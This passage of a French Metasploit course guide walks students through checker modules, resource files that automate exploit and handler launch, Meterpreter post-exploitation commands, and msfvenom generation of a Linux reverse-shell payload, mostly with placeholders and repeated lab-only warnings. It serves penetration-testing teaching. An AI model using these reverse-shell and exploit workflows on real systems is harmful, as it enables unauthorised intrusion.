      ]
    )
  end

  def run_host(ip)
    result = check_target(ip)

    case result
    when :closed
      vprint_status("#{ip}:445 closed or filtered")
    when :detected
      print_status("#{ip}:445 SMB service detected")
    when :appears
      print_warning("#{ip} appears potentially vulnerable")
    when :vulnerable
      print_good("#{ip} appears vulnerable based on controlled check evidence")
    else
      print_status("#{ip}: unknown state")
    end
  end

  def check_target(ip)
    # 1. tester si SMB répond
    # 2. collecter un indice non destructif
    # 3. retourner :closed, :detected, :appears, :vulnerable ou :unknown
  end
end
```

## Option C — Exploit module avec `check`

Si le sujet demande explicitement un module avec `check`, la logique ressemble à :

```ruby
def check
  # collecter information cible
  # si aucune réponse : CheckCode::Unknown
  # si service absent : CheckCode::Safe
  # si service présent sans preuve : CheckCode::Detected
  # si indices forts : CheckCode::Appears
  # si preuve contrôlée : CheckCode::Vulnerable
end
```

## Commandes de test

```text
use auxiliary/scanner/custom/custom_ms17_010_checker
set RHOSTS 192.168.56.10
set RPORT 445
run
```

ou avec un module supportant `check` :

```text
check
```

## Ce que tu dois documenter

Dans ton README :

- IP de la VM cible ;
- preuve que tu es en lab ;
- port SMB testé ;
- résultat du check ;
- capture d’écran du résultat ;
- explication du code `Safe`, `Detected`, `Appears`, `Vulnerable` ;
- limite : un checker n’est pas un scanner de vulnérabilité complet.

---

# 16. Automatiser l’exécution d’un exploit et d’un payload

## 16.1 Principe

Automatiser un exploit ne veut pas dire attaquer aveuglément. En lab, l’objectif pédagogique est de comprendre l’enchaînement :

```text
Choisir module → définir cible → choisir payload → définir LHOST/LPORT → lancer handler/exploit → obtenir session → vérifier session
```

## 16.2 Workflow manuel

```text
use exploit/<lab>/<module>
set RHOSTS TARGET
set PAYLOAD <payload>
set LHOST LHOST
set LPORT LPORT
show options
run
```

## 16.3 Workflow automatisé `.rc`

```text
workspace -a metasploit_scripting_lab
use exploit/LAB_MODULE_PATH
set RHOSTS RHOST
set PAYLOAD PAYLOAD_NAME
set LHOST LHOST
set LPORT LPORT
set VERBOSE true
run -j
sleep 5
sessions -l
```

`run -j` lance souvent le module en tâche de fond quand c’est adapté.

## 16.4 Pourquoi utiliser des placeholders ?

Dans les consignes, on te demande d’utiliser des placeholders comme :

```text
RHOST
LHOST
LPORT
```

Cela évite de rendre le fichier dépendant de ton environnement exact.

Exemple :

```text
set RHOSTS RHOST
set LHOST LHOST
set LPORT LPORT
```

Ensuite, tu expliques dans README :

```text
Remplacer RHOST par l'adresse IP de la machine cible de lab.
Remplacer LHOST par l'adresse IP de l'interface Kali joignable par la cible.
Remplacer LPORT par le port d'écoute choisi.
```

## 16.5 Attention aux guillemets

Si la consigne dit d’éviter les guillemets, respecte-la :

```text
set RHOSTS 192.168.56.10
```

Pas :

```text
set RHOSTS "192.168.56.10"
```

## 16.6 Vérifier l’IP LHOST

Sur Kali :

```bash
ip addr
```

Choisis l’IP de l’interface accessible par la VM cible :

- `eth0` ;
- `tun0` pour VPN/lab ;
- `vmnet`/NAT selon VMware ;
- `docker0` seulement si pertinent.

---

# 17. Projet 2 — Automated Exploit Launcher

## Objectif

Créer un script/resource file ou module custom qui automatise l’exécution d’un exploit et d’un payload dans un lab autorisé.

## Livrables possibles

```text
scripts/exploit_launcher.rc
README.md
evidence/screenshots/exploit_launcher.png
```

## Version resource file recommandée

```text
workspace -a metasploit_scripting_lab
use exploit/LAB_MODULE_PATH
set RHOSTS RHOST
set PAYLOAD PAYLOAD_NAME
set LHOST LHOST
set LPORT LPORT
set VERBOSE true
run
sessions -l
```

## Version avec handler séparé

```text
workspace -a metasploit_scripting_lab
use exploit/multi/handler
set PAYLOAD PAYLOAD_NAME
set LHOST LHOST
set LPORT LPORT
run -j
jobs -l
```

## Version Ruby autonome : logique seulement

Un script Ruby autonome pourrait générer un `.rc` à partir de paramètres validés.

Structure mentale :

```text
Lire arguments → valider IP/port/module → écrire fichier .rc → afficher commande d’exécution
```

Pseudo-code :

```ruby
#!/usr/bin/env ruby

# 1. lire ARGV
# 2. vérifier nombre d'arguments
# 3. valider LPORT numérique
# 4. construire lignes Metasploit
# 5. écrire exploit_launcher.rc
# 6. afficher msfconsole -r exploit_launcher.rc
```

## Ce qu’il faut éviter

- hardcoder une cible publique ;
- lancer automatiquement sans afficher les options ;
- ignorer les erreurs ;
- ne pas documenter le contexte lab ;
- confondre payload et exploit ;
- oublier que `LHOST` doit être joignable par la cible.

## Preuves à prendre

Captures utiles :

1. `show options` avec RHOST/LHOST/LPORT configurés ;
2. lancement du resource file ;
3. résultat `sessions -l` ;
4. `jobs -l` si handler lancé en arrière-plan ;
5. notes dans README expliquant que la cible est une VM de lab.

---

# 18. Post-exploitation : sessions, Meterpreter et collecte d’informations

## 18.1 Définition

La post-exploitation désigne les actions réalisées après l’ouverture d’une session autorisée dans un lab ou une mission encadrée.

Objectif pédagogique :

- confirmer le niveau d’accès ;
- collecter des informations système ;
- documenter l’impact ;
- rester non destructif ;
- ne pas persister ;
- ne pas exfiltrer de données personnelles.

## 18.2 Lister les sessions

```text
sessions -l
```

Interagir :

```text
sessions -i 1
```

Quitter l’interaction sans fermer :

```text
background
```

## 18.3 Commandes Meterpreter utiles en lab

```text
sysinfo
getuid
pwd
ls
ipconfig
ifconfig
ps
background
```

## 18.4 Commandes shell utiles en lab Linux

```bash
whoami
hostname
uname -a
id
ip addr
pwd
ls
```

## 18.5 À ne pas faire sans autorisation explicite

- dump credentials ;
- extraire fichiers sensibles ;
- persistance ;
- pivot réseau ;
- keylogging ;
- webcam/micro ;
- suppression de logs ;
- modification système ;
- exfiltration.

Même en lab, ces sujets doivent être traités avec prudence et uniquement si l’exercice le demande.

---

# 19. Projet 3 — Information Gathering Script

## Objectif

Créer un script ou post module qui collecte des informations système après obtention d’une session autorisée.

## Option A — Resource file post-exploitation

```text
sessions -l
use post/multi/gather/env
set SESSION SESSION_ID
run
```

Tu peux aussi utiliser des modules existants :

```text
search type:post platform:linux gather
search type:post platform:windows gather
```

## Option B — Post module custom

Fichier possible :

```text
~/.msf4/modules/post/linux/gather/simple_sysinfo.rb
```

## Structure mentale



## Squelette pédagogique

```ruby
class MetasploitModule < Msf::Post
  def initialize(info = {})
    super(
      update_info(
        info,
        'Name' => 'Simple Linux Information Gathering',
        'Description' => %q{
          Collects basic non-sensitive system information from an authorized lab session.
        },
        'Author' => ['Student'],
        'License' => MSF_LICENSE,
        'Platform' => ['linux'],
        'SessionTypes' => ['shell', 'meterpreter']
      )
    )
  end

  def run
    print_status("Running on session #{session.sid}")

    # Exemples pédagogiques :
    # - hostname
    # - whoami
    # - uname -a
    # - id
    # - ip addr
    #
    # L’objectif est de comprendre comment appeler des commandes
    # et gérer proprement leur sortie.
  end
end
```

## Logique pour exécuter une commande

Selon le type de session, les APIs diffèrent. Pour un premier module, tu peux :

- commencer par une session shell ;
- utiliser des commandes simples ;
- afficher les résultats ;
- éviter les commandes sensibles.

Pseudo-code :

```ruby
def run_command(cmd)
  # envoyer commande
  # récupérer sortie
  # gérer erreur/timeout
  # retourner texte
end
```

## Résultats attendus

```text
[*] Running on session 1
[*] Hostname: vulnerable-vm
[*] User: www-data
[*] Kernel: Linux vulnerable-vm ...
```

## Stocker les résultats

Tu peux stocker les résultats comme loot si l’exercice le demande :

```ruby
store_loot(
  'host.basic.info',
  'text/plain',
  session,
  output,
  'basic_sysinfo.txt',
  'Basic system information'
)
```

## Captures à prendre

1. `sessions -l` ;
2. `use post/.../simple_sysinfo` ;
3. `show options` ;
4. `set SESSION <id>` ;
5. `run` ;
6. résultat affiché ;
7. `loot` si stockage utilisé.

---

# 20. Payloads, msfvenom, encoders et limites de l’évasion AV

## 20.1 Qu’est-ce qu’un payload ?

Un payload est l’action exécutée après une exploitation réussie.

Exemples :

```text
linux/x64/shell_reverse_tcp
windows/x64/meterpreter/reverse_tcp
cmd/unix/reverse_bash
```

## 20.2 Reverse vs bind

| Type | Description | Problème fréquent |
|---|---|---|
| Reverse | La cible se connecte vers l’attaquant/lab | Mauvais LHOST |
| Bind | La cible ouvre un port en écoute | Firewall entrant |
| Staged | Petit stager puis stage complet | Bloqué par réseau/EDR |
| Stageless | Payload complet d’un coup | Taille plus grosse |

## 20.3 Handler

Le handler est le composant Metasploit qui attend la connexion du payload.

Exemple en lab :

```text
use exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST LHOST
set LPORT LPORT
run
```

## 20.4 Msfvenom

`msfvenom` sert à générer des payloads dans différents formats.

Voir les payloads :

```bash
msfvenom -l payloads
```

Voir les formats :

```bash
msfvenom --help-formats
```

Voir les options d’un payload :

```bash
msfvenom -p linux/x64/shell_reverse_tcp --payload-options
```

## 20.5 Exemple lab-only de génération

Exemple pédagogique avec placeholders :

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=LHOST LPORT=LPORT -f elf -o payload.elf
```

Puis côté Metasploit :

```text
use exploit/multi/handler
set PAYLOAD linux/x64/shell_reverse_tcp
set LHOST LHOST
set LPORT LPORT
run
```

## 20.6 Encoders

Un encoder transforme le payload. Historiquement, les encoders ont surtout servi à :

- éviter des bad characters ;
- adapter un payload à une contrainte d’exploit ;
- transformer la représentation binaire.

Exemple conceptuel :

```text
payload brut → encoder → payload transformé → exécution → décodage en mémoire
```

## 20.7 Bad characters

Dans certains exploits, certains octets cassent l’entrée :

- `\x00` : null byte ;
- `\x0a` : line feed ;
- `\x0d` : carriage return.

Dans ce contexte, encoder peut être utile pour des raisons techniques.

## 20.8 Important : encodage ≠ invisibilité

À retenir fortement :

> Encoder un payload ne garantit pas qu’il passera un antivirus ou un EDR.

Les solutions modernes analysent aussi :

- le comportement ;
- les appels système ;
- les connexions réseau ;
- la mémoire ;
- les patterns de stager ;
- la réputation ;
- les indicateurs runtime.

Dans ce cours, l’objectif est de comprendre la mécanique, pas de fournir une méthode d’évasion réelle.

## 20.9 Ce que tu peux écrire dans un rapport

Formulation propre :

```text
The payload generation step was performed only in a local authorized lab.
Encoding was studied as a historical and technical mechanism mainly used for bad-character constraints.
No claim of real-world antivirus bypass is made.
```

---

# 21. Projet 4 — Custom Payload Generator

## Objectif

Créer un script Ruby qui génère une commande `msfvenom` ou un payload de lab à partir de paramètres contrôlés.

## Fichier possible

```text
scripts/generate_payload.rb
```

## Fonctionnalités attendues

- accepter `LHOST` ;
- accepter `LPORT` ;
- accepter un format de sortie ;
- accepter un nom de fichier ;
- valider les paramètres ;
- générer une commande claire ;
- éventuellement exécuter `msfvenom` si l’exercice le demande ;
- documenter que l’usage est lab-only.

## Interface possible

```bash
./generate_payload.rb LHOST LPORT OUTPUT
```

Exemple :

```bash
./generate_payload.rb 192.168.56.5 4444 payload.elf
```

## Logique du script



## Squelette pédagogique Ruby

```ruby
#!/usr/bin/env ruby

def usage
  puts "Usage: ./generate_payload.rb LHOST LPORT OUTPUT"
  exit 1
end

usage unless ARGV.length == 3

lhost = ARGV[0]
lport = ARGV[1]
output = ARGV[2]

unless lport.match?(/\A\d+\z/) && lport.to_i.between?(1, 65_535)
  puts "Invalid LPORT"
  exit 1
end

# Construire une commande sous forme de tableau est plus sûr
# qu'une grosse chaîne shell non validée.
command = [
  'msfvenom',
  '-p', 'linux/x64/shell_reverse_tcp',
  "LHOST=#{lhost}",
  "LPORT=#{lport}",
  '-f', 'elf',
  '-o', output
]

puts command.join(' ')

# Optionnel selon consigne :
# system(*command)
```

## Pourquoi tableau plutôt que string ?

Mieux :

```ruby
system(*command)
```

Moins bien :

```ruby
system(command.join(' '))
```

Parce que la version tableau réduit les risques liés à l’interprétation shell.

## Encodage dans ce projet

Si ton exercice mentionne explicitement l’encodage, traite-le comme une option de lab documentée, pas comme une promesse d’évasion :

```text
ENCODER is optional and must be used only to understand payload transformation or bad-character handling in a controlled lab.
```

Tu peux documenter :

```text
This project does not provide or validate real-world antivirus bypass.
```

## Preuves à prendre

1. affichage `Usage` si mauvais arguments ;
2. validation d’un port invalide ;
3. commande générée avec placeholders ;
4. fichier généré en local lab si demandé ;
5. handler Metasploit configuré ;
6. test dans VM cible autorisée uniquement.

---

# 22. Logging, reporting et stockage des résultats

Metasploit fournit plusieurs mécanismes utiles pour produire des résultats propres.

## 22.1 Logging console

Dans `msfconsole` :

```text
setg LogLevel 3
```

Logs :

```bash
tail -f ~/.msf4/logs/framework.log
```

## 22.2 Reporting services

Dans un scanner :

```ruby
report_service(
  host: ip,
  port: port,
  proto: 'tcp',
  name: 'unknown'
)
```

Puis :

```text
services
```

## 22.3 Reporting vulnérabilités

Dans un auxiliary module qui vérifie une vulnérabilité :

```ruby
report_vuln(
  host: ip,
  port: datastore['RPORT'],
  proto: 'tcp',
  name: 'Potential MS17-010 exposure',
  refs: references
)
```

À utiliser seulement si tu as une vraie base de preuve.

## 22.4 Stocker du loot

Pour stocker un résultat texte :

```ruby
store_loot(
  'custom.output',
  'text/plain',
  session,
  output,
  'output.txt',
  'Custom module output'
)
```

Puis :

```text
loot
```

## 22.5 Différence entre affichage et stockage

| Action | Avantage | Limite |
|---|---|---|
| `print_good` | Visible immédiatement | Perdu si terminal fermé |
| `report_service` | Stocké en base | Nécessite DB |
| `store_loot` | Fichier récupérable | À utiliser proprement |
| README | Explique la démarche | Manuel |
| Screenshots | Preuve visuelle | Pas structuré |

---

# 23. Tests, debug et validation

## 23.1 Vérifier la syntaxe Ruby

```bash
ruby -c custom_port_scanner.rb
```

Résultat attendu :

```text
Syntax OK
```

## 23.2 Charger le module

```text
msfconsole
loadpath ~/.msf4/modules
reload_all
search custom
```

## 23.3 Afficher les options

```text
use auxiliary/scanner/custom/custom_port_scanner
show options
show advanced
show missing
```

## 23.4 Lancer en verbose

```text
set VERBOSE true
run
```

## 23.5 Vérifier la base

```text
hosts
services
notes
vulns
loot
```

## 23.6 Lire les logs

```bash
tail -f ~/.msf4/logs/framework.log
```

## 23.7 Erreurs fréquentes

| Message | Cause probable | Correction |
|---|---|---|
| `NameError` | constante/mixin mal écrit | vérifier orthographe |
| `NoMethodError` | méthode inexistante | vérifier API utilisée |
| `LoadError` | mauvais chemin ou require | vérifier fichier |
| Module non listé | mauvais dossier | vérifier arborescence |
| `RHOSTS is required` | option manquante | `set RHOSTS` |
| Pas de session | mauvais LHOST/payload/firewall | vérifier connectivité |
| Timeout | cible down ou filtrée | ping, nmap, route |

---

# 24. README.md attendu à la racine du projet

Voici un modèle propre :

```markdown
# Metasploit Scripting

## Overview

This project demonstrates basic Metasploit scripting and module development in an authorized lab environment.

## Scope

All tests were performed against local or authorized training machines only.

## Files

- `modules/auxiliary/scanner/custom_port_scanner.rb`
- `scripts/ms17_010_check.rc`
- `scripts/exploit_launcher.rc`
- `scripts/generate_payload.rb`
- `modules/post/linux/gather/simple_sysinfo.rb`

## Requirements

- Kali Linux
- Metasploit Framework
- Ruby
- Authorized target VM

## Usage

### Custom Port Scanner

```text
msfconsole
loadpath ~/.msf4/modules
reload_all
use auxiliary/scanner/custom/custom_port_scanner
set RHOSTS RHOST
set PORTS 22,80,443,445
run
```

### MS17-010 Checker

```text
resource scripts/ms17_010_check.rc
```

### Automated Exploit Launcher

```text
msfconsole -r scripts/exploit_launcher.rc
```

### Information Gathering

```text
use post/linux/gather/simple_sysinfo
set SESSION SESSION_ID
run
```

### Payload Generator

```bash
./scripts/generate_payload.rb LHOST LPORT payload.elf
```

## Notes

Payload generation and exploitation steps are for local lab use only.
Encoding is studied for technical understanding and bad-character handling, not as a real-world AV bypass method.

## Evidence

Screenshots are stored in `evidence/screenshots`.

## Author

Student
```

---

# 25. Checklist finale pour valider le module

## Général

- [ ] Tous les fichiers finissent par une nouvelle ligne.
- [ ] Les scripts Ruby exécutables ont le shebang si nécessaire.
- [ ] Les scripts Ruby exécutables ont `chmod +x`.
- [ ] Pas de backticks shell inutiles.
- [ ] Pas de `&&`, `||`, `;` utilisés comme si tu écrivais du Bash dans du Ruby.
- [ ] Les paramètres sont validés.
- [ ] Les placeholders sont clairs : `RHOST`, `LHOST`, `LPORT`, `SESSION_ID`.
- [ ] README présent à la racine.
- [ ] Usage documenté.
- [ ] Scope lab documenté.

## Custom Port Scanner

- [ ] Module chargé dans Metasploit.
- [ ] `RHOSTS` fonctionne.
- [ ] `PORTS` fonctionne.
- [ ] Les ports ouverts sont affichés.
- [ ] Les services sont enregistrés si possible.
- [ ] Les ports fermés ne font pas planter le module.

## Vulnerability Checker

- [ ] Le port 445 est testé.
- [ ] Le résultat ne surdéclare pas la vulnérabilité.
- [ ] Les états incertains sont gérés.
- [ ] Le README explique les limites du check.

## Automated Exploit Launcher

- [ ] Resource file propre.
- [ ] Options configurables.
- [ ] Exploit/payload uniquement lab.
- [ ] `sessions -l` utilisé pour vérifier le résultat.

## Information Gathering

- [ ] Session existante requise.
- [ ] Commandes non destructives.
- [ ] Résultats lisibles.
- [ ] Loot stocké seulement si demandé.

## Payload Generator

- [ ] Arguments validés.
- [ ] Port vérifié.
- [ ] Commande générée correctement.
- [ ] Usage lab-only documenté.
- [ ] Pas de promesse d’évasion antivirus.

---

# 26. Glossaire

| Terme | Définition |
|---|---|
| Auxiliary module | Module sans payload, souvent utilisé pour scan/énumération/check |
| Exploit module | Module qui exploite une vulnérabilité |
| Payload | Code/action exécuté après exploitation |
| Handler | Composant qui attend/gère une session |
| Meterpreter | Payload avancé interactif de Metasploit |
| Post module | Module lancé après obtention d’une session |
| Resource file | Fichier `.rc` contenant des commandes msfconsole |
| Datastore | Système d’options Metasploit |
| RHOSTS | Cibles distantes |
| RPORT | Port distant |
| LHOST | Adresse locale d’écoute |
| LPORT | Port local d’écoute |
| CheckCode | Résultat standardisé d’une méthode `check` |
| Loot | Donnée collectée et stockée par Metasploit |
| Encoder | Module qui transforme les bytes d’un payload |
| Bad characters | Octets interdits/problématiques dans un exploit |
| Stager | Petit payload initial qui charge un stage |
| Stage | Payload complet chargé après le stager |
| Stageless | Payload complet embarqué directement |

---

# 27. Sources et documentation utile

## Documentation officielle / référence principale

- Metasploit Documentation — Modules  
  https://docs.metasploit.com/docs/modules.html

- Metasploit Documentation — Running modules  
  https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html

- Metasploit Documentation — Resource Scripts  
  https://docs.rapid7.com/metasploit/resource-scripts/

- Metasploit Documentation — Writing an auxiliary module  
  https://docs.metasploit.com/docs/development/developing-modules/guides/how-to-get-started-with-writing-an-auxiliary-module.html

- Metasploit Documentation — Writing a post module  
  https://docs.metasploit.com/docs/development/developing-modules/guides/how-to-get-started-with-writing-a-post-module.html

- Metasploit Documentation — How to write a check method  
  https://docs.metasploit.com/docs/development/developing-modules/guides/how-to-write-a-check-method.html

- Metasploit Documentation — Datastore options  
  https://docs.metasploit.com/docs/development/developing-modules/module-metadata/how-to-use-datastore-options.html

- Metasploit Documentation — Logging  
  https://docs.metasploit.com/docs/development/developing-modules/libraries/how-to-log-in-metasploit.html

- Metasploit Documentation — Reporting and Storing Data  
  https://docs.metasploit.com/docs/development/developing-modules/libraries/how-to-do-reporting-or-store-data-in-module-development.html

- Metasploit Documentation — Post Gather Modules  
  https://docs.metasploit.com/docs/pentesting/metasploit-guide-post-gather-modules.html

- Metasploit Documentation — Meterpreter  
  https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter.html

- Metasploit Documentation — How payloads work  
  https://docs.metasploit.com/docs/using-metasploit/basics/how-payloads-work.html

- Metasploit Documentation — How to use msfvenom  
  https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

## Références complémentaires

- Kali Tools — metasploit-framework  
  https://www.kali.org/tools/metasploit-framework/

- Metasploit Framework GitHub  
  https://github.com/rapid7/metasploit-framework

- Offensive Security — Metasploit Unleashed  
  https://www.offsec.com/metasploit-unleashed/

---

# Conclusion

Ce module marque une étape importante : tu ne te contentes plus de lancer Metasploit, tu commences à le comprendre comme un framework programmable.

La progression logique est :

```text
Resource files → scripts Ruby → auxiliary modules → check methods → post modules → payload generation contrôlée
```

Ce que tu dois retenir :

- un bon module a un objectif clair ;
- un scanner ne doit pas casser la cible ;
- un checker doit retourner un état honnête ;
- une exploitation automatisée doit rester dans un lab autorisé ;
- la post-exploitation doit être minimale, contrôlée et documentée ;
- les payloads et encoders doivent être compris techniquement, sans confusion avec une évasion AV réelle ;
- la documentation et les preuves comptent autant que le code.

En cybersécurité, savoir lancer un outil est utile. Savoir écrire, auditer et expliquer l’outil est ce qui te fait passer au niveau supérieur.
